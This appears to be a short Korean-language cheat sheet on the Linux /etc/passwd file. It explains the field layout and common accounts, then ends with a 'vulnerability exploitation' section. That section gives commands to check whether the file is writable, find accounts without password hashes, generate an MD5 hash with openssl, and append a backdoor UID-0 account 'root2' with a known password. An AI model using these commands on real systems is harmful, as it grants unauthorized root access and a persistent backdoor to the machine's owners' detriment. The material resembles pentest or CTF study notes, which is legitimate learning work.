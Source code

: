 # /etc/passwd 분석

## 구조

```
username:password:UID:GID:GECOS:home_dir:shell
```

- `username`: 로그인 계정명
- `password`: 'x' 표시는 /etc/shadow에 암호 저장됨
- `UID`: 사용자 ID (0=root, <1000=시스템 계정, ≥1000=일반 사용자)
- `GID`: 기본 그룹 ID
- `GECOS`: 사용자 정보 필드(이름, 연락처 등)
- `home_dir`: 홈 디렉토리 경로
- `shell`: 로그인 시 실행되는 기본 쉘

## 주요 계정 식별

```
root:x:0:0:root:/root:/bin/bash    # 관리자 계정
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin    # 최소 권한 계정
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin    # 웹 서버 계정
```

## 취약점 활용

- 쓰기 가능한 /etc/passwd 확인: `ls -la /etc/passwd`
- 해시 없는 계정 검색: `grep -v ':x:' /etc/passwd`
- OpenSSL로 암호 생성: `openssl passwd -1 -salt xyz password`
- 루트 계정 추가: `echo 'root2:$1$xyz$kL.GVc1d6R.Fw5SYW1tD//:0:0:root:/root:/bin/bash' >> /etc/passwd`
